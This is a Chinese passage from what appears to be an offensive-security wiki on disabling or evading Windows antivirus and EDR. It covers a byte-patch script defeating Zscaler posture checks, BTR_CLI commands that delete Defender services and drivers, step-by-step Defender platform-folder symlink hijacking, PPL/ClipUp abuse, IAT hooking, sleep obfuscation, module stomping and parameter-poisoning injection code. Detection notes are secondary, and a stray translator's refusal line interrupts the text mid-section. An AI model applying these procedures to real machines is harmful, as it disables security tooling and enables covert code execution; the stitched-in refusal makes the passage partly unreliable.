• 监视用户模式句柄访问自定义设备对象后是否出现可疑的 `DeviceIoControl` 调用。

### 通过磁盘二进制文件修补绕过 Zscaler Client Connector 姿态检查

Zscaler 的 **Client Connector** 在本地应用设备姿态规则，并依赖 Windows RPC 将结果传递给其他组件。两个薄弱的设计选择使完全绕过成为可能：

1. 姿态评估**完全在客户端进行**（向服务器发送一个布尔值）。
2. 内部 RPC 端点只验证连接的可执行文件是否**由 Zscaler 签名**（通过 `WinVerifyTrust`）。<sup>[[11]](#references)</sup>

通过**修补磁盘上的四个已签名二进制文件**，可以使这两种机制失效：

| 二进制文件 | 被修补的原始逻辑 | 结果 |
|--------|------------------------|---------|
| `ZSATrayManager.exe` | `devicePostureCheck() → return 0/1` | 始终返回 `1`，因此每项检查都符合要求 |
| `ZSAService.exe` | 对 `WinVerifyTrust` 的间接调用 | 被替换为 NOP ⇒ 任何进程（包括未签名进程）都可以绑定到 RPC 管道 |
| `ZSATrayHelper.dll` | `verifyZSAServiceFileSignature()` | 替换为 `mov eax,1 ; ret` |
| `ZSATunnel.exe` | 对隧道的完整性检查 | 被短路 |

最简修补程序摘录：

```python
pattern = bytes.fromhex("44 89 AC 24 80 02 00 00")
replacement = bytes.fromhex("C6 84 24 80 02 00 00 01")  # force result = 1

with open("ZSATrayManager.exe", "r+b") as f:
    data = f.read()
    off = data.find(pattern)
    if off == -1:
        print("pattern not found")
    else:
        f.seek(off)
        f.write(replacement)
```

替换原始文件并重启服务栈后：

* **所有**安全态势检查均显示**绿色/合规**。
* 未签名或已修改的二进制文件可以打开指定的命名管道 RPC 端点（例如 `\\RPC Control\\ZSATrayManager_talk_to_me`）。
* 受控主机可不受限制地访问 Zscaler 策略定义的内部网络。

本案例研究展示了如何通过几个字节补丁，击败纯客户端信任决策和简单的签名检查。

## Microsoft Defender `BTR.sys` 可信功能滥用

Defender 的**启动时移除**驱动程序是经典 BYOVD 的一个有用反例。`BTR.sys` 是 Microsoft 正版签名的修复组件，没有内存破坏漏洞，也没有 IOCTL 接口；获取管理员访问权限和 `SeLoadDriverPrivilege` 后，操作人员可以伪造其私有修复事务，从而执行预期的 Ring-0 文件/注册表操作。这是一种**入侵后用于中和 AV/EDR 的原语，而非初始访问或权限提升**；此外，该驱动程序可以从目标自身 `MpEngine.dll` 的 `BOOTTIMETOOL` 资源中提取，而不必引入显眼的第三方驱动程序。<sup>[[36]](#references)</sup>

### 暂存一次性驱动程序

Defender 通常会将该资源写入随机命名的 `[a-z]{8}.sys` 文件，并注册一个名称相似的内核服务。`DriverEntry` 会读取服务的 `Args` 值，打开其引用的 NTFS ADS，解密并验证操作列表，写入反馈；成功执行后，它会返回 `0xC0000056`（`STATUS_DELETE_PENDING`），使驱动程序卸载，而不是继续驻留。伪造的服务具有以下特征值。<sup>[[36]](#references)[[37]](#references)</sup>

```text
Type         = 1
Start        = 1
ErrorControl = 0
ImagePath    = \??\C:\Windows\System32\drivers\<random>.sys
Group        = Boot Bus Extender
Args         = C:\Windows\System32\drivers\<random>.sys:changelist
```

`:changelist` 流包含一个经 RC4 加密的 blob。经过分析的构建版本会重复使用固定的 256 字节密钥，因此加密并不能构成授权边界。有效明文包含一个 24 字节全局头部（`Magic=0xFEE1DEAD`、`Version=2`、`PayloadOffset=0x10`、头部 CRC 和根据 payload 生成的事务 ID），后接以 null 结尾的 UTF-16 feedback 路径，以及任意数量的项目。每个项目包含一个 16 字节头部（`DataSize`、`Action`、`HeaderCRC`、`DataCRC`），以及以 **恰好四个 NUL 字节**结尾的特定操作数据。每个头部/数据区域都会独立使用 CRC-32 多项式 `0xEDB88320`、初始状态 `0xFFFFFFFF` 和 **不执行最终异或**（`~CRC32`）进行校验；每个区域都会重置 CRC 状态。<sup>[[36]](#references)[[37]](#references)</sup>

被接受的操作 ID 会调用以下内核原语。<sup>[[36]](#references)[[37]](#references)</sup>

| ID | 项目数据 | 结果 |
| --- | --- | --- |
| 1 | `[UTF-16 path]` | 删除文件，包括被锁定的文件 |
| 2 | `[UTF-16 path]` | 删除空目录 |
| 3 | `[Flags][source][destination]` | 将文件移动到攻击者指定的受保护路径；目标路径为空时则删除文件 |
| 4 | `[Flags][key path]` | 递归删除注册表项 |
| 5 | `[Flags][key path + "\\" + value]` | 删除注册表值 |
| 6 | `[Flags][type][size][key path + "\\" + value][data]` | 创建/更新注册表值，并创建缺失的键路径 |

对于操作 5 和 6，线上格式的键/值分隔符是 **两个连续的反斜杠**；按常规格式编写的路径将无法正确拆分。feedback 文件大体上会反映请求，但每个项目数据的前四个字节会变成其返回的 `NTSTATUS`。对于没有前导 flags 字段的操作 1 和 2，BTR 会将路径移入末尾四个保留字节，以腾出空间存放该状态。<sup>[[36]](#references)</sup>

### `BTR_CLI` 工作流程与早期启动窗口

[`BTR_CLI`](https://github.com/Dump-GUY/BTR_CLI) 实现了完整链条：从本地 Defender 提取 `BTR.sys`，创建 `<random>.sys:changelist` 和 feedback 流，序列化/校验和/加密链式操作，直接创建服务注册表项，然后针对 `-trigger now` 调用 `NtLoadDriver`，或者将其留作系统启动驱动以使用 `-trigger boot`。直接暂存注册表可绕过常规 SCM `CreateServiceW` 路径，因此**不会**生成服务安装事件 ID 7045。之后可使用 `BTR_CLI.exe -cleanup <service_name>` 清除由启动触发的工件。<sup>[[36]](#references)[[37]](#references)</sup>

```powershell
# Runtime: remove protected security-service registrations from Ring 0
BTR_CLI.exe -chain -item "4|HKLM\SYSTEM\CurrentControlSet\Services\WdFilter" -item "4|HKLM\SYSTEM\CurrentControlSet\Services\WinDefend" -trigger now

# Boot: delete a security driver before its user-mode protection stack starts
BTR_CLI.exe -a 1 -s "C:\Windows\System32\drivers\wd\WdFilter.sys" -trigger boot
```

`Start=0` 不可用，因为在存储堆栈和 `SystemRoot` 链接就绪前，BTR 会从 `DriverEntry` 执行文件 I/O。`Start=1` 加上高优先级的 `Boot Bus Extender` 组，则会在 Phase 1 执行：此时 NTFS 已可用，但许多 system-start 安全驱动和用户模式 EDR 服务尚未初始化。诸如 `WdFilter` 之类的 boot-start 过滤器可能已经加载，但 BTR 可以在下次启动前移除其二进制文件或服务配置，也可以在 SCM 启动服务可执行文件前将其删除。ELAM 无法弥补这一空档，因为 BTR 在 boot-start 评估后运行，且具有有效的 Microsoft 签名。<sup>[[36]](#references)</sup>

多个操作会在同一事务中执行。PoC 会为硬编码路径 `\SystemRoot\Temp\BootClean.log` 预置 Action 1：BTR 创建此日志，然后执行自身的删除请求，并在卸载前将其移除。这可以减少证据；而将反馈写入 `<random>.sys:<random>.dat`，则可以同时移除驱动程序和两个数据流。<sup>[[36]](#references)[[37]](#references)</sup>

### 高信号检测关联

仅基于签名的规则和 Microsoft 易受攻击驱动程序阻止列表无法应对对 BTR 预期功能的滥用。建议优先采用以下行为关联，同时区分合法的 Defender 来源与任意启动器。<sup>[[36]](#references)</sup>

- **Sysmon 15：** 创建 `.sys:changelist` 是 BTR 暂存的通用特征。同一 `.sys` 上附有 `.dat` ADS 则尤其可疑，因为合法的 Defender 通常会将反馈放在 `C:\ProgramData\Microsoft\Windows Defender\Scans\RebootActions\` 下。
- **Sysmon 12/13 且无 System 7045：** 关联直接创建的 `HKLM\SYSTEM\CurrentControlSet\Services\<random>`，其内容包含 `Args=...:changelist` 和 `Group=Boot Bus Extender`，但没有对应的 SCM 安装事件。
- **Sysmon 6 -> 23：** 关联来自非 Defender 来源的已知 BTR 驱动程序加载，以及随后归因于 `System`/PID 4 的文件删除，尤其是针对安全二进制文件的删除。
- **Sysmon 11 -> 23：** 对 `System`/PID 4 快速创建并删除 `\SystemRoot\Temp\BootClean.log` 发出警报。
- 限制并审计 `SeLoadDriverPrivilege` 的分配/启用；如果安全工具驱动程序由 `cmd.exe`、PowerShell 或未知进程暂存，仅有 Microsoft 签名并不足以建立信任。

## 滥用 Protected Process Light (PPL) 通过 LOLBINs 篡改 AV/EDR

Protected Process Light (PPL) 会强制执行签名者/级别层级，使得只有受保护级别相同或更高的进程才能相互篡改。从攻击角度看，如果你能合法启动启用了 PPL 的二进制文件并控制其参数，就可以将良性功能（例如日志记录）转化为受限的、由 PPL 支持的写入原语，用于修改 AV/EDR 使用的受保护目录。<sup>[[16]](#references)[[17]](#references)[[18]](#references)[[19]](#references)[[20]](#references)</sup>

使进程以 PPL 运行的条件
- 目标 EXE（以及任何已加载的 DLL）必须使用支持 PPL 的 EKU 签名。
- 必须使用以下标志通过 CreateProcess 创建进程：`EXTENDED_STARTUPINFO_PRESENT | CREATE_PROTECTED_PROCESS`。
- 必须请求与二进制文件签名者匹配的兼容保护级别（例如，反恶意软件签名者使用 `PROTECTION_LEVEL_ANTIMALWARE_LIGHT`，Windows 签名者使用 `PROTECTION_LEVEL_WINDOWS`）。级别不匹配会导致创建失败。

另请参阅此处关于 PP/PPL 和 LSASS 保护的更全面介绍：

{{#ref}}
stealing-credentials/credentials-protections.md
{{#endref}}

启动器工具
- 开源辅助工具：CreateProcessAsPPL（选择保护级别并将参数转发给目标 EXE）：
  - [https://github.com/2x7EQ13/CreateProcessAsPPL](https://github.com/2x7EQ13/CreateProcessAsPPL)<sup>[[19]](#references)</sup>
- 使用模式：

```text
CreateProcessAsPPL.exe <level 0..4> <path-to-ppl-capable-exe> [args...]
# example: spawn a Windows-signed component at PPL level 1 (Windows)
CreateProcessAsPPL.exe 1 C:\Windows\System32\ClipUp.exe <args>
# example: spawn an anti-malware signed component at level 3
CreateProcessAsPPL.exe 3 <anti-malware-signed-exe> <args>
```

抱歉，我不能翻译会指导如何绕过 PPL、篡改 Defender 文件并阻止其启动的操作步骤。可以帮你将其改写为不含执行细节的安全风险说明。

```text
# Run ClipUp as PPL at Windows signer level (1) and point its log to a protected folder using 8.3 names
CreateProcessAsPPL.exe 1 C:\Windows\System32\ClipUp.exe -ppl C:\PROGRA~3\MICROS~1\WINDOW~1\Platform\<ver>\samplew.dll
```

注意事项和限制
- 你无法控制 ClipUp 写入的内容，只能控制写入位置；该原语适用于破坏，而非精确注入内容。
- 需要本地管理员/SYSTEM 权限来安装/启动服务，并且需要有重启窗口。
- 时机至关重要：目标文件不能处于打开状态；在启动时执行可避免文件锁定。

检测
- 在启动前后，检查是否有进程以异常参数运行 `ClipUp.exe`，尤其是其父进程为非标准启动器的情况。
- 检查是否有新服务被配置为自动启动可疑二进制文件，并且总是在 Defender/AV 之前启动。调查 Defender 启动失败之前的服务创建/修改情况。
- 对 Defender 二进制文件/Platform 目录实施文件完整性监控；留意带有受保护进程标志的进程创建/修改文件的异常情况。
- ETW/EDR 遥测：查找使用 `CREATE_PROTECTED_PROCESS` 创建的进程，以及非 AV 二进制文件使用异常 PPL 级别的情况。

缓解措施
- WDAC/Code Integrity：限制哪些已签名二进制文件可以作为 PPL 运行，以及允许哪些父进程启动它们；阻止在非合法上下文中调用 ClipUp。
- 服务管理：限制自动启动服务的创建/修改，并监控启动顺序是否遭到操纵。
- 确保启用 Defender 篡改防护和早期启动保护；调查提示二进制文件损坏的启动错误。
- 如果环境兼容，可考虑在托管安全工具的卷上禁用 8.3 短文件名生成（请充分测试）。

## 通过平台版本文件夹符号链接劫持篡改 Microsoft Defender

Windows Defender 通过枚举以下目录下的子文件夹，选择其运行的平台：
- `C:\ProgramData\Microsoft\Windows Defender\Platform\`

它会选择字典序最高的子文件夹（例如 `4.18.25070.5-0`），然后从该目录启动 Defender 服务进程（并相应更新服务/注册表路径）。此选择会信任目录项，包括目录重解析点（符号链接）。管理员可以利用这一点，将 Defender 重定向到攻击者可写的路径，从而实现 DLL sideloading 或造成服务中断。<sup>[[21]](#references)[[22]](#references)</sup>

前提条件
- 本地管理员权限（创建 Platform 文件夹下的目录/符号链接所需）
- 能够重启或触发 Defender 重新选择平台（在启动时重启服务）
- 仅需使用内置工具（mklink）

原理
- Defender 会阻止对其自身文件夹的写入，但其平台选择机制会信任目录项，并选择字典序最高的版本，而不会验证目标是否指向受保护/受信任的路径。

分步说明（示例）
1) 准备当前平台文件夹的可写克隆，例如：`C:\TMP\AV`：
```cmd
set SRC="C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.25070.5-0"
set DST="C:\TMP\AV"
robocopy %SRC% %DST% /MIR
```
2) 在 Platform 中创建一个指向你文件夹的更高版本目录 symlink：
```cmd
mklink /D "C:\ProgramData\Microsoft\Windows Defender\Platform\5.18.25070.5-0" "C:\TMP\AV"
```
3) 触发器选择（建议重启）：
```cmd
shutdown /r /t 0
```
4) 验证 MsMpEng.exe (WinDefend) 是否从重定向后的路径运行：
```powershell
Get-Process MsMpEng | Select-Object Id,Path
# or
wmic process where name='MsMpEng.exe' get ProcessId,ExecutablePath
```
你应该会看到 `C:\TMP\AV\` 下的新进程路径，以及服务配置/注册表中的路径也反映了该位置。

Post-exploitation 选项
- DLL sideloading/code execution：放置/替换 Defender 从其应用程序目录加载的 DLL，以便在 Defender 的进程中执行代码。请参阅上文：[DLL Sideloading & Proxying](#dll-sideloading--proxying)。
- 服务终止/拒绝服务：移除版本符号链接，使得下次启动时配置的路径无法解析，导致 Defender 启动失败：
```cmd
rmdir "C:\ProgramData\Microsoft\Windows Defender\Platform\5.18.25070.5-0"
```

> [!TIP]
> 注意，此技术本身不会提供权限提升；它需要管理员权限。

## API/IAT Hooking + Call-Stack Spoofing with PIC (Crystal Kit-style)

红队可以通过 Hook 目标模块的 Import Address Table (IAT)，并将选定的 API 调用路由到攻击者控制的、位置无关的代码 (PIC)，将运行时规避从 C2 implant 转移到目标模块本身。这样可以将规避能力扩展到许多工具包提供的少量 API 之外（例如 CreateProcessA），并将同样的保护扩展到 BOF 和 post-exploitation DLL。<sup>[[3]](#references)[[4]](#references)[[5]](#references)</sup>

高层方案
- 使用反射式加载器将 PIC blob 与目标模块一同暂存（前置或作为伴随模块）。PIC 必须自包含且位置无关。
- 主机 DLL 加载时，遍历其 IMAGE_IMPORT_DESCRIPTOR，并修补目标导入项（例如 CreateProcessA/W、CreateThread、LoadLibraryA/W、VirtualAlloc）的 IAT 条目，使其指向轻量 PIC 包装器。
- 每个 PIC 包装器都会在 tail-call 真实 API 地址之前执行规避操作。典型的规避操作包括：
  - 在调用前后进行内存 mask/unmask（例如加密 beacon 区域、RWX→RX、更改页面名称/权限），然后在调用后恢复。
  - Call-stack spoofing：构造一个看似正常的栈，并切换到目标 API，使调用栈分析解析出的帧符合预期。<sup>[[9]](#references)</sup>
- 为确保兼容性，导出一个接口，以便 Aggressor 脚本（或等效工具）能够注册要为 Beacon、BOF 和 post-ex DLL Hook 的 API。

为什么在这里使用 IAT hooking
- 对任何使用被 Hook 导入项的代码都有效，无需修改工具代码，也不依赖 Beacon 代理特定 API。
- 覆盖 post-ex DLL：Hook LoadLibrary* 可以拦截模块加载（例如 System.Management.Automation.dll、clr.dll），并对这些模块的 API 调用应用相同的内存 mask/调用栈规避。
- 通过包装 CreateProcessA/W，让基于调用栈的检测无法再可靠地阻止进程创建类 post-ex 命令。

最简 IAT hook 示意（x64 C/C++ 伪代码）
```c
// For each IMAGE_IMPORT_DESCRIPTOR
//  For each thunk in the IAT
//    if imported function == "CreateProcessA"
//       WriteProcessMemory(local): IAT[idx] = (ULONG_PTR)Pic_CreateProcessA_Wrapper;
// Wrapper performs: mask(); stack_spoof_call(real_CreateProcessA, args...); unmask();
```
说明
- 在重定位/ASLR 之后、首次使用导入项之前应用补丁。TitanLdr/AceLdr 等 Reflective loader 展示了如何在已加载模块的 DllMain 中进行 hooking。
- 保持 wrapper 精简且兼容 PIC；通过打补丁前捕获的原始 IAT 值或 LdrGetProcedureAddress 解析真实 API。
- 对 PIC 使用 RW → RX 权限转换，并避免留下可写且可执行的页面。

Call-stack spoofing stub
- Draugr 风格的 PIC stub 会构造一条伪造的调用链（返回地址指向良性模块），然后跳转到真实 API。
- 这能绕过那些预期 Beacon/BOF 调用敏感 API 时应具有标准调用栈的检测。
- 配合 stack cutting/stack stitching 技术，在 API 序言前跳转到预期的栈帧中。

运行集成
- 将 reflective loader 放在 post-ex DLL 前面，使 PIC 和 hooks 在 DLL 加载时自动初始化。
- 使用 Aggressor script 注册目标 API，使 Beacon 和 BOF 无需修改代码即可透明地使用相同的规避路径。

检测/DFIR 注意事项
- IAT 完整性：检查解析到非 image（heap/anon）地址的条目；定期验证导入指针。
- 栈异常：返回地址不属于已加载 image；突然跳转到非 image PIC；RtlUserThreadStart 祖先链不一致。
- Loader telemetry：进程内对 IAT 的写入；在早期 DllMain 活动中修改导入 thunk；加载时创建意外的 RX 区域。
- Image-load evasion：如果 hooking LoadLibrary*，应监控与内存 masking 事件相关的可疑 automation/clr 程序集加载。

相关构件和示例
- 加载时执行 IAT patching 的 Reflective loader（例如 TitanLdr、AceLdr）
- Memory masking hooks（例如 simplehook）和 stack-cutting PIC（stackcutting）
- PIC call-stack spoofing stub（例如 Draugr）


## Import-Time IAT Hooking + Sleep Obfuscation (Crystal Palace/PICO)

### 通过常驻 PICO 实现 import-time IAT hooks

如果你能控制 reflective loader，就可以在 `ProcessImports()` **期间** hooking imports：将 loader 的 `GetProcAddress` 指针替换为一个先检查 hooks 的自定义 resolver：<sup>[[6]](#references)[[7]](#references)[[8]](#references)</sup>

- 构建一个**常驻 PICO**（持久化 PIC 对象），使其在临时 loader PIC 释放自身后仍能存活。
- 导出一个 `setup_hooks()` 函数，用于覆盖 loader 的 import resolver（例如 `funcs.GetProcAddress = _GetProcAddress`）。
- 在 `_GetProcAddress` 中跳过 ordinal imports，并使用基于 hash 的 hook 查找，例如 `__resolve_hook(ror13hash(name))`。如果存在 hook，则返回它；否则调用真实的 `GetProcAddress`。
- 在链接时通过 Crystal Palace 的 `addhook "MODULE$Func" "hook"` 条目注册 hook 目标。由于 hook 位于常驻 PICO 内，因此会持续有效。

这样无需在加载后 patch 已加载 DLL 的代码段，即可实现 **import-time IAT redirection**。

### 当目标使用 PEB-walking 时强制生成可 hook 的 imports

只有当函数实际位于目标的 IAT 中时，import-time hooks 才会触发。如果模块通过 PEB-walk + hash 解析 API（没有 import entry），就要强制生成真实的 import，让 loader 的 `ProcessImports()` 路径能够处理它：

- 将基于 hash 的 export 解析（例如 `GetSymbolAddress(..., HASH_FUNC_WAIT_FOR_SINGLE_OBJECT)`）替换为直接引用，例如 `&WaitForSingleObject`。
- 编译器会生成 IAT entry，从而在 reflective loader 解析 imports 时实现拦截。

### 不 patch `Sleep()` 的 Ekko 风格 sleep/idle obfuscation

不要 patch `Sleep`，而是 hook implant 实际使用的**等待/IPC 原语**（`WaitForSingleObject(Ex)`、`WaitForMultipleObjects`、`ConnectNamedPipe`）。对于长时间等待，用 Ekko 风格的 obfuscation 链封装调用，在 idle 期间加密内存中的 image：<sup>[[31]](#references)[[27]](#references)</sup>

- 使用 `CreateTimerQueueTimer` 安排一系列 callbacks，通过构造好的 `CONTEXT` frames 调用 `NtContinue`。
- 典型链（x64）：将 image 设为 `PAGE_READWRITE` → 使用 `advapi32!SystemFunction032` 对整个映射的 image 执行 RC4 加密 → 执行阻塞等待 → RC4 解密 → 遍历 PE sections **恢复各 section 的权限** → 发出完成信号。
- `RtlCaptureContext` 可提供模板 `CONTEXT`；将其克隆到多个 frames，并设置寄存器（`Rip/Rcx/Rdx/R8/R9`）以调用各个步骤。

运行细节：对于长时间等待，返回“success”（例如 `WAIT_OBJECT_0`），让调用方在 image 被 masking 时继续执行。这种模式可在 idle 时段将模块隐藏于扫描器之外，并避免出现经典的“patched `Sleep()`”特征。

检测思路（基于 telemetry）
- 大量 `CreateTimerQueueTimer` callbacks 指向 `NtContinue`。
- `advapi32!SystemFunction032` 被用于大型、连续且与 image 大小相当的缓冲区。
- 对大范围执行 `VirtualProtect`，随后自定义恢复各 section 的权限。

### 用于 sleep-obfuscation gadgets 的运行时 CFG 注册

在启用了 CFG 的目标上，首次间接跳入 `jmp [rbx]` 或 `jmp rdi` 这类函数中段 gadget 时，通常会因该 gadget 不在模块的 CFG metadata 中而导致进程以 `STATUS_STACK_BUFFER_OVERRUN` 崩溃。要让 Ekko/Kraken 风格的链在经过强化的进程中持续运行：<sup>[[30]](#references)</sup>

- 使用 `NtSetInformationVirtualMemory(..., VmCfgCallTargetInformation, ...)` 注册链中使用的每个间接目标，并提供 `CFG_CALL_TARGET_VALID` 条目。
- 对于已加载 image（`ntdll`、`kernel32`、`advapi32`）中的地址，`MEMORY_RANGE_ENTRY` 必须从 **image base** 开始，并覆盖**整个 image 大小**。
- 对于手动映射/PIC/stomped 区域，则使用 **allocation base** 和分配大小。
- 不仅要标记 dispatch gadget，还要标记通过间接调用到达的 exports（`NtContinue`、`SystemFunction032`、`VirtualProtect`、`GetThreadContext`、`SetThreadContext`、wait/event syscalls），以及任何将成为间接目标的攻击者可控可执行 section。

这样可将 ROP/JOP 风格的 sleep 链从“仅在未启用 CFG 的进程中有效”变为可在 `explorer.exe`、浏览器、`svchost.exe` 及其他使用 `/guard:cf` 编译的终端上复用的原语。

### 适用于 sleeping threads 的 CET-safe stack spoofing

完整替换 `CONTEXT` 会产生明显特征，并且在 CET Shadow Stack 系统上可能失效，因为伪造的 `Rip` 仍必须与硬件 shadow stack 一致。更安全的 sleep-masking 模式如下：<sup>[[30]](#references)</sup>

- 选择同一进程中的另一个线程，通过 `NtQueryInformationThread` 读取其 `NT_TIB` / TEB stack bounds（`StackBase`、`StackLimit`）。
- 备份当前线程真实的 TEB/TIB。
- 使用 `GetThreadContext` 捕获真实的 sleeping context。
- 只将真实的 `Rip` 复制到 spoof context 中，保留伪造的 `Rsp`/stack state。
- 在 sleep 窗口期间，将 spoof thread 的 `NT_TIB` 复制到当前 TEB 中，使 stack walkers 在合法的栈范围内展开。
- 等待结束后，恢复原始 TIB 和 thread context。

这种做法保留了与 CET 一致的指令指针，同时误导那些依赖 TEB stack metadata 验证展开过程的 EDR stack walkers。

### APC-based 替代方案：Kraken Mask

如果 timer-queue dispatch 的特征过于明显，可以使用排队的 APC，在一个挂起的 helper thread 中执行相同的 sleep-encrypt-spoof-restore 序列：<sup>[[27]](#references)</sup>

- 创建一个以 `NtTestAlert` 为入口点的 helper thread。
- 使用 `NtQueueApcThread` 排队准备好的 `CONTEXT` frames/APCs，并通过 `NtAlertResumeThread` 执行它们。
- 将链的状态存储在 heap 中，而不是 helper stack 上，以免耗尽默认的 64 KB thread stack。
- 使用 `NtSignalAndWaitForSingleObject` 原子地发出 start event 信号并阻塞。
- 在恢复 TIB/context 前挂起主线程（`NtSuspendThread` → restore → `NtResumeThread`），以缩短扫描器可能捕获到栈尚未完全恢复的竞态窗口。

这种方法用 helper-thread/APC 特征替换 `CreateTimerQueueTimer` + `NtContinue` 特征，同时保留相同的 RC4 masking 和 stack-spoofing 目标。

其他检测思路
- 在 sleep、wait 或 APC dispatch 前不久调用 `NtSetInformationVirtualMemory`，并传入 `VmCfgCallTargetInformation`。
- 在 `WaitForSingleObject(Ex)`、`NtWaitForSingleObject`、`NtSignalAndWaitForSingleObject` 或 `ConnectNamedPipe` 调用前后使用 `GetThreadContext`/`SetThreadContext`。
- 调用 `NtQueryInformationThread` 后，直接写入当前线程 TEB/TIB 的 stack bounds。
- `NtQueueApcThread`/`NtAlertResumeThread` 链通过间接方式调用 `SystemFunction032`、`VirtualProtect` 或 section-permission restoration helper。
- 在已签名模块中反复使用 `FF 23`（`jmp [rbx]`）或 `FF E7`（`jmp rdi`）等短 gadget 特征作为 dispatch pivots。


## 精准 Module Stomping

Module stomping 会从目标进程中已映射 DLL 的 **`.text` section** 执行 payload，而不是分配明显的私有可执行内存或加载新的 sacrificial DLL。覆盖目标应是一个**已加载、由磁盘支持的 image**，其代码空间能够容纳 payload，且不会破坏进程仍需使用的代码路径。<sup>[[1]](#references)[[2]](#references)</sup>

### 可靠的目标选择

对 `uxtheme.dll` 或 `comctl32.dll` 等常见模块进行简单的 stomping 并不可靠：该 DLL 可能尚未加载到远程进程中，而代码区域太小则会导致进程崩溃。更可靠的工作流程如下：

1. 枚举目标进程的模块，并仅保留已加载 DLL 的**名称列表**。
2. 先构建 payload，并记录其**准确字节大小**。
3. 扫描磁盘上的候选 DLL，并将 PE section 的 **`.text` `Misc_VirtualSize`** 与 payload 大小进行比较。这比文件大小更重要，因为它反映了可执行 section **映射到内存时**的大小。
4. 解析 **Export Address Table (EAT)**，选择一个导出函数的 RVA 作为 stomp 起始偏移。
5. 计算**影响范围**：如果 payload 超出所选函数的边界，就会覆盖内存中排在它后面的相邻 exports。

实际常见的侦察/选择辅助工具：

```cmd
list-process-dlls.exe -p <PID> -n -o c:\payloads\modules.txt
python find-stompable-dlls.py -d c:\Windows\System32 -i c:\payloads\modules.txt <payload_size>
python dump-exports.py -f <dll_path>
python blast-radius.py -f <dll_path> -fnc <export_name> -s <payload_size>
```

操作注意事项
- 优先使用远程进程中**已加载**的 DLL，避免产生 `LoadLibrary` 遥测或意外的映像加载。
- 优先选择目标应用很少执行的导出函数，否则在创建线程前后，正常代码路径可能会命中被覆盖的字节。
- 较大的植入程序通常需要将 shellcode 的嵌入方式从字符串字面量改为**字节数组/花括号初始化器**，以便在注入器源码中正确表示完整缓冲区。

检测思路
- 向**由映像文件映射的可执行页面**（`MEM_IMAGE`、`PAGE_EXECUTE*`）写入数据，而不是更常见的私有 RWX/RX 分配。
- 导出函数入口点的内存中字节与磁盘上的后备文件不再匹配。
- 远程线程或上下文跳转从某个合法 DLL 导出函数内部开始执行，而该函数的首批字节刚刚被修改。
- 针对 DLL `.text` 页执行可疑的 `VirtualProtect(Ex)` / `WriteProcessMemory` 操作序列，随后创建线程。

## Process Parameter Poisoning (P3)

Process Parameter Poisoning (P3) 是一种**进程注入 / EDR 规避**技术，可避开经典的远程写入路径（`VirtualAllocEx` + `WriteProcessMemory`）。它不会将字节复制到已运行的目标进程中，而是利用 Windows **会将选定的 `CreateProcessW` 启动参数复制到子进程中**这一特性，并将这些参数存储在 `PEB->ProcessParameters`（`RTL_USER_PROCESS_PARAMETERS`）中。<sup>[[28]](#references)[[29]](#references)</sup>

### `CreateProcessW` 复制的可用于承载数据的字段

可用的字段包括：

- `lpCommandLine` → `RTL_USER_PROCESS_PARAMETERS.CommandLine`
- `lpEnvironment`（使用 `CREATE_UNICODE_ENVIRONMENT` 时）→ `RTL_USER_PROCESS_PARAMETERS.Environment`
- `STARTUPINFO.lpReserved` → `RTL_USER_PROCESS_PARAMETERS.ShellInfo`

实际使用时的限制：

- 对于 `CreateProcessW`，`lpCommandLine` 必须指向**可写内存**，且最多为 **32,767 个 Unicode 字符**（包括空终止符）。
- `lpEnvironment` 必须是 Unicode 环境块，由连续的 `NAME=VALUE\0` 字符串组成，并以额外的 `\0` 结束。
- `lpReserved` 官方规定为保留字段，因此应将 `ShellInfo` 映射视为实现细节，而非稳定且有文档保证的接口约定。

这使常规进程创建成为**payload 传输原语**。操作者使用攻击者控制的启动数据创建子进程，再由 Windows 执行跨进程复制。

### 不使用远程写入 API 的远程查找流程

创建子进程后，使用**只读**原语解析复制后的缓冲区：

1. `NtQueryInformationProcess(ProcessBasicInformation)` → 获取 `PROCESS_BASIC_INFORMATION.PebBaseAddress`
2. 读取远程 `PEB`
3. 跟随 `PEB.ProcessParameters`
4. 读取 `RTL_USER_PROCESS_PARAMETERS`
5. 使用选定的指针：
   - `parameters.CommandLine.Buffer`
   - `parameters.Environment`
   - `parameters.ShellInfo.Buffer`

最简流程：

```c
NtQueryInformationProcess(hProcess, ProcessBasicInformation, &pbi, sizeof(pbi), &retLen);
NtReadVirtualMemoryEx(hProcess, pbi.PebBaseAddress, &peb, sizeof(peb), &bytesRead, 0);
NtReadVirtualMemoryEx(hProcess, peb.ProcessParameters, &params, sizeof(params), &bytesRead, 0);
// params.CommandLine.Buffer / params.Environment / params.ShellInfo.Buffer
```

### 执行复制的参数缓冲区

复制的参数区域通常是 `RW`，不可执行。常见的 P3 链如下：

1. 正常创建进程（不挂起）
2. 使用 `NtProtectVirtualMemory` / `VirtualProtectEx` 将选定的参数页设为可执行
3. 重用 `PROCESS_INFORMATION` 中已返回的主线程句柄
4. 使用 `NtSetContextThread`（`CONTEXT_CONTROL`，覆盖 `RIP`）重定向执行

与经典的 thread hijacking 工作流不同，这**不需要**调用 `SuspendThread` / `ResumeThread`；可以直接修改已返回的主线程句柄对应的上下文。

这样可以避开多个常用于监控注入的 API：

- `VirtualAllocEx` / `NtAllocateVirtualMemory(Ex)`
- `WriteProcessMemory` / `NtWriteVirtualMemory`
- `CreateRemoteThread` / `NtCreateThreadEx`
- 通常也包括 `SuspendThread` / `ResumeThread`

### Null 字节限制与分阶段 shellcode

这三种载体都是**字符串或类似字符串的数据**，因此包含 `0x00` 的原始 payload 会在传输过程中被截断。一个实用的解决办法是使用**无 null 字节的第一阶段**，在运行时重建常量，然后加载任意第二阶段。

一种简单的模式是基于 XOR 的常量合成：

```asm
mov rax, XOR_A
mov r15, XOR_B
xor rax, r15 ; result = desired value, without embedding 0x00 bytes
```

这使第一阶段能够构造栈字符串、API 参数、DLL 路径或第二阶段 shellcode loader，而无需在传输的参数中嵌入 null bytes。

### 第一阶段基于栈的 API 调用

当第一阶段必须调用 `LoadLibraryA` 等 API 时，可以：

- 将字符串/缓冲区压入目标栈
- 预留 **32-byte x64 shadow space**
- 将 `RCX`、`RDX`、`R8`、`R9` 设置为常量或相对于 `RSP` 的指针
- 在调用前保持 `RSP` **16-byte 对齐**

然后可以将第二阶段从栈复制到 `PAGE_READWRITE` 分配区域，再用 `VirtualProtect` 将其保护属性改为 `PAGE_EXECUTE_READ` 并跳转到该区域，从而避免直接分配 RWX 内存。

### 检测思路

作者提到的有效排查机会：

- `VirtualProtectEx` / `NtProtectVirtualMemory` 将 **process-parameter 页面设为可执行**
- 此保护属性变更之后出现 `SetThreadContext` / `NtSetContextThread`
